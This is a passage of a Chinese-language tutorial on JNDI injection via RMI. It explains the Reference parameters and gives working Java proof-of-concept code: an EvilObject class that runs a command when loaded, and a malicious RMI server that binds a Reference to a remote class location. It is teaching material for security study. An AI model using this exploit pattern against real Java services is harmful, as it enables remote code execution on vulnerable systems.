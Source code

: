 ```java
    }
}
```

其实主要就是三个参数：`className、classFactory、classFactoryLocation`

- `classname`：远程加载时所使用的类的名字，可以随便取
- `classFactory`：`class`中需要实例化类的名称
- `classFactoryLocation`：加载`class`的远程地址，可以是`file/ftp/http`等协议

#### 实操

1. 一个编译后的字节码文件

```java
import java.io.IOException;

public class EvilObject {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}

```

2. 使用`Reference`创建一个恶意的rmi服务端，这里需要ReferenceWrapper包装

```java
package pers.jndi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class JNDIServer {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        String ClassName = "evilObject";
        String FactoryName = "evilObject";
        String FactoryLocationURL = "http://127.0.0.1:8888/";

        //创建注册中心
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference(ClassName, FactoryName, FactoryLocationURL);
        //因为这个Reference类没有继承UnicastRemoteObject，不能绑定在rmi的注册表中
        //我们使用ReferenceWrapper类包装一下Reference类对象
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("reference", referenceWrapper);
    }
}
```
